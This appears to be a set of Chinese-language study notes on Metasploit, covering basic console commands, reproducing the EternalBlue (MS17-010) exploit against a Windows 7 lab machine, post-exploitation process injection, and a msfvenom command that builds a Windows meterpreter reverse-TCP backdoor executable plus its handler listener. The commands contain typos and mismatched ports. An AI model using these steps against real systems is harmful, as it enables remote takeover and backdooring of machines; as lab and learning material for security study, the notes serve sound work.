




# 1.基本使用

## 使用方式

### 使用模块 - user [module name]

不知道模块具体名称可以使用`search`搜索

### 配置模块必选项 - set [option_name]

不知道具体选项可以使用`show option`

### 运行模块 - run

## 2.永恒之蓝复现

搜索ms17_010


要进行使用可以`use [module name]`或者use 前面的序号

使用`show options`查看需要配置的选项



配置完对应的选项之后run即可，关闭win7靶机的防火墙即可成功



这里的攻击载荷是`meterpreter`

也可以设置不同的攻击载荷

### 后渗透环节

可以使用help查看当前可以使用的命令



靶机使用的不是管理员用户，使用个人用户，但我们得到的权限是管理员用户，想要在个人用户下进行后渗透操作需要进行降权

查看当前的id，将进程注入到用户操作去



# 2.正篇

## 1.msfvenom生成木马后

windows可执行程序后门

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.204.149 lport=6688 -f exe -o liao.exe
```

> -p 设置攻击载荷
>
> windows/x64/meterpreter/reverse_tcp 系统/架构/作用/方式 方式一般选择反向TCP连接，让目标连接本机
>
> lhost lport设置监听本地机器的ip和端口
>
> -f format
>
> -o output

使用模块开启监听

```
use exploit/mutil/handler
```

设置pyload

```
set paypload windows/x64/meterpreter/reverse_tcp
```

设置模块必选项 ip 端口

```
set lhost 0.0.0.0
set lport 9999
```

运行模块 

```
run
```

